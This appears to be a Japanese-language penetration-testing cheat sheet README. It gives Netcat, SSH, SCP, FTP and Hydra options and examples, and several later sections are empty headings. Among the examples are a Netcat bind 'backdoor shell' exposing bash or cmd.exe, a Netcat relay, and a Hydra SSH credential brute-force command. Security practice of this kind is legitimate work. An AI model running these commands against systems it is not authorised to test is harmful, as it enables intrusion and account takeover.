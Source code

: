# high-frequency-tips
頻繁に使うコマンドのCheatSheet
(short link → bit.ly/spxntips)

## Netcat
オプション：
```
-l：リッスン
-n：名前解決を行わない
-k：コネクション確立後も接続をリッスンする
-v：接続状態などの出力を行う
-vv：接続状態などのより詳細な出力を行う
```
実行例(ポート1234でリッスン)：
```console
$ncat -nlv 1234
```
実行例(Backdoor Shell)
```console
$nc -l -p [port] -e /bin/bash
```
OR
```console
C:\>nc [port] -e cmd.exe
```
実行例(Ntcat Relays(Listener-to-Listner))
```console
$cd /tmp
$mknod backpipe p
$nc -l -p [port] 0<backpipe | nc -l -p [port] | tee backpipe
```
## SSH
オプション：
```
-p：ポート指定
-v：デバッグの出力
-vv：デバッグのより詳細な出力
-vvv："-vv"より更に詳細な出力
```
実行例(ターゲットのユーザに対してSSHで接続)
```console
$ssh user@[target(ip/hostname)]
```
### SCP(SSH File Transfer)
オプション：
```
-P：ポート指定
-v：デバッグの出力
-p：ファイルに付与されたタイムスタンプなどの情報を保持する
-r：再帰的(ディレクトリごと等)
*.txt：ワイルドカード
/home/user/{file1,file2,file3}：ファイルの複数選択 
```
実行例(リモートホストからローカルにコピーする)：
```console
$scp user@[target(ip/hostname)]:[remote_filepath] [local_filepath]
```
実行例(ローカルからリモートホストにコピーする)
```console
$scp [local_filepath] user@[target(ip/hostname)]:[remote_filepath]
```
## FTP
オプション：
```
-s:filename ：接続時にスクリプトを実行する
```
実行例(ターゲットに接続)：
```console
$ftp [target(ip/hostname)]
```
実行例(アップロード(FTP))：
```console
ftp>put [local_filepath]
```
実行例(ダウンロード(FTP))：
```console
ftp>get [remote_filepath]
```
## Hydra
オプション：
```
[service]：ssh, rdp, ftp, 
-C [file]：<login:pass>形式のUSERPASSリストを指定
-P [file]：PASSリストを指定
-U [file]：USERリストを指定
-s PORT：サービスが起動しているポート
-t：同時実行タスク数()
-v：詳細な出力
services: サービスの指定/対応サービス(asterisk afp cisco cisco-enable cvs firebird ftp ftps http[s]-{head|get} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] mssql mysql ncp nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres rdp rexec rlogin rsh s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp)
```
実行例(sshパスクラ)：
```console
$hydra -C [USERPASS_FILE] [target(ip/hostname)] ssh
```
## John the Ripper
## HashCat
## Metasploit Framework
 ### Meterpreter
 ### msfvenom
 ### Pivot
## Network
 ### Routing
 ### ICMP
 ### ARP
## Google Dork
## Linux General Command
## Windows General Command
